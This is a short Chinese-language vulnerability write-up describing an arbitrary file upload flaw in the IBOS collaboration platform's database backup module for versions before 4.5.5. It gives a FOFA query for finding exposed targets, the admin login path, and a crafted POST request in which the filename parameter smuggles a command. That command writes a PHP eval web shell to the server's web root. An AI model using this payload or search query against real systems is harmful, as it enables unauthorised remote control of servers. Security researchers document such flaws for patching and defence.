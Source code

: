 # IBOS 数据库模块 任意文件上传漏洞

## 漏洞描述

IBOS 后台数据库模块 存在任意文件上传漏洞，攻击者进入后台后可以上传恶意文件控制服务器

## 漏洞影响

> [!NOTE]
>
> IBOS < 4.5.5

## FOFA

> [!NOTE]
>
> body="IBOS" && body="login-panel"

## 漏洞复现

登录页面如下

```
http://xxx.xxx.xxx.xxx/?r=dashboard/default/login
```

![](http://wikioss.peiqi.tech/vuln/IBOS-1.PNG)

找到数据库备份模块

![](http://wikioss.peiqi.tech/vuln/ibos-2.png)

提交并抓包

![](http://wikioss.peiqi.tech/vuln/ibos-3.png)

修改filename参数发送包会上传peiqi.php文件到根目录

```
backuptype=all&custom_enabled=1&method=shell&sizelimit=2048&extendins=0&sqlcompat=MYSQL41&sqlcharset=utf8&usehex=0&usezip=0&filename=peiqi%26echo "<?php eval($_REQUEST[peiqi]);?>">peiqi%PATHEXT:~0,1%php%26peiqi&dbSubmit=1
```

![](http://wikioss.peiqi.tech/vuln/ibos-4.png)